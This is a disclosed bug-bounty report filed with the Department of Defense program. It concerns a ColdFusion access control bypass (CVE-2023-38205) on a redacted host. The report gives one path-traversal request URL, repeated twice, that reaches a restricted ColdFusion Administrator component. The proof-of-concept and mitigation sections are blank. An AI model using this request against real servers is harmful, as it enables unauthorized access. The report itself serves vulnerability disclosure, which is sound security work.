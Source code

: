 # Adobe ColdFusion - Access Control Bypass [CVE-2023-38205] at ██████

## Report Details
- **Report ID**: 2082528
- **URL**: https://hackerone.com/reports/2082528
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-07-24T18:24:11.130Z
- **Disclosed**: 2023-09-08T17:12:14.348Z

## Reporter
- **Username**: mega7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello Gents, I would like to report an issue where attackers are able to bypass the product feature that restricts external access to the ColdFusion Administrator. [CVE-2023-38205] at `██████`



## Steps to reproduce
+ Please open the following link:

> https://█████████/hax/..CFIDE/wizards/common/utils.cfc?method=wizardHash&inPassword=foo&_cfclient=true&returnFormat=wddx

## Proof of concept

+ ████

## Impact

Access Control Bypass.

Thanks and have a nice day!

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
+ Please open the following link:

> https://████████/hax/..CFIDE/wizards/common/utils.cfc?method=wizardHash&inPassword=foo&_cfclient=true&returnFormat=wddx

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
